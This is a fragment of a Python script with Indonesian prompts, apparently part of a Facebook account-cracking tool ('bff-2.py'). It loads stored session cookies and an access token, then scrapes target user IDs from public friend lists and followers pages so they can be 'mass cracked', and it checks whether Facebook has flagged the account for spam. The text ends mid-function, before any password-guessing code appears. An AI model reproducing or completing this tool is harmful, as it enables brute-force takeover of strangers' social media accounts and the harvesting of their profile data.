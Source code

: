 		
class pilihan:
	
	def __init__(self):
		self.kueh = romz_xyz(open("data/cookies","r").read().strip())
		try:
			self.token = open("data/token.txt","r").read()
		except FileNotFoundError:
			os.system("rm -rf data/cookies && rm -rf data/token && rm -rf data/my_info")
			os.system('clear')
			print ("%s%s cookie invalid "%(M,til));jeda(2)
			os.system('python bff-2.py')
		self.url = ("https://mbasic.facebook.com")
		self.id = []
				
	def menu(self):
		Menu(self.url).tentang()
		slut = input('\n%s# %sPilih %s> %s'%(P,O,M,K))
		if slut in['',' ']:
			print ('\n%s%s isi yang benar'%(M,til));jeda(2)
			self.menu()
		elif slut in['1','01']:
			gan = input ("\n%s%s%s ingin crack massal id? y/t%s >%s "%(U,til,O,M,K))
			if gan in[""]:
				print ('\n%s%s isi yang benar'%(M,til));jeda(2)
			elif gan in['y','Y']:
				try:
					token = self.token
					self.MassalGRAPH(token)
				except KeyError:
					exit('\n%s%s gagal mengambil id '%(M,til))
			elif gan in['t','T']:
				print ("\n%s%s %sPastikan daftar teman bersifat publik "%(U,til,O))
				idt = input('%s%s %sUsername/Id%s > %s'%(U,til,O,M,K))
				if idt in[""," "]:
					print ('\n%s%s isi yang benar'%(M,til));jeda(2)
				elif(re.findall("\w+",idt)):
					r = requests.get("https://mbasic.facebook.com/"+idt).text
					try:
						user = re.findall('\;rid\=(\d+)\&',str(r))[0]
					except:
						user = idt
					try:
						print ('')
						token = self.token
						self.PublikGRAPH(user, token)
					except KeyError:
						exit('\n%s%s gagal mengambil id '%(M,til))
		elif slut in['2','02']:
			print ("\n%s%s %sPastikan target terdapat pengikut nya "%(U,til,O))
			idt = input('%s%s %sUsername/Id%s > %s'%(U,til,O,M,K))
			if idt in[""," "]:
				print ('\n%s%s isi yang benar'%(M,til));jeda(2)
			else:
				data_ = (f"{self.url}/{idt}?v=followers")
			try:
				response = requests.get(data_, cookies=self.kueh).text
				if "Anda Tidak Dapat Menggunakan Fitur Ini Sekarang" in response:
					exit('\n%s%s akun terkena spam coba beberapa saat lagi'%(M,til))
				elif "Halaman yang Anda minta tidak ditemukan." in response:
					exit('\n%s%s Id tidak ditemukan '%(M,til))
				elif "Konten Tidak Ditemukan" in response:
					exit('\n%s%s Id tidak ditemukan '%(M,til))
				else:
					#print (f"{U}{til}{O} Nama akun {M}>{K} "+re.findall("\<title\>(.*?)<\/title\>",response)[0])